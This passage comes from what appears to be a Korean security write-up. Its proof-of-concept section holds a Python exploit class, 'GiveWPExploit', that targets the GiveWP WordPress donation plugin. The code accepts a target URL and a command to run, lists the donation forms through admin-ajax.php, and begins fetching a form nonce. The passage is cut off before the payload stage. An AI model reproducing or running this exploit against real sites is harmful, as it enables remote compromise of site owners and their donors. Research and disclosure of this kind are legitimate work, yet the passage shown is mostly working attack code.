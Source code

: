 ## 3. PoC
### 3.1 PoC 코드
```python
import requests
from faker import Faker
from urllib.parse import urlparse
import time
import sys
import rich_click as click

requests.packages.urllib3.disable_warnings(
    requests.packages.urllib3.exceptions.InsecureRequestWarning
)

class GiveWPExploit:

    def __init__(self, url: str, cmd: str):
        self.url = url
        self.cmd = cmd
        self.formId = None

    def spinner(duration=10, interval=0.1) -> None:
        spinner_chars = ['|', '/', '-', '\\']
        end_time = time.time() + duration
        while time.time() < end_time:
            for char in spinner_chars:
                sys.stdout.write(f'\r[{char}] Exploit loading, please wait...')
                sys.stdout.flush()
                time.sleep(interval)
        print("")

    def getBaseUrl(self, url) -> str:
        parsed_url = urlparse(url)
        base_url = f"{parsed_url.scheme}://{parsed_url.netloc}"
        return base_url

    def getFormId(self) -> None:
        baseUrl = self.getBaseUrl(self.url)
        reqUrl = f"{baseUrl}/wp-admin/admin-ajax.php"
        data = {
            'action': 'give_form_search'
        }
        response = requests.post(reqUrl, data=data)
        if response.status_code == 200: 
            json_data = response.json()
            ids = [item['id'] for item in json_data]
            names = [item['name'] for item in json_data]
            print("[+] Donation Forms:")
            for id, name in zip(ids, names):
                print(f"    {id}: {name}")
            self.formId = input("[+] Choose one (id) >>> ").strip()
        else:
            print(f"[-] HTTP Request Failed: {response.status_code}")
            exit(1)

    def getNonce(self) -> str:
        baseUrl = self.getBaseUrl(self.url)
        reqUrl = f"{baseUrl}/wp-admin/admin-ajax.php"
        self.getFormId()
        data = {
            'action': 'give_donation_form_nonce',
            'give_form_id': self.formId
```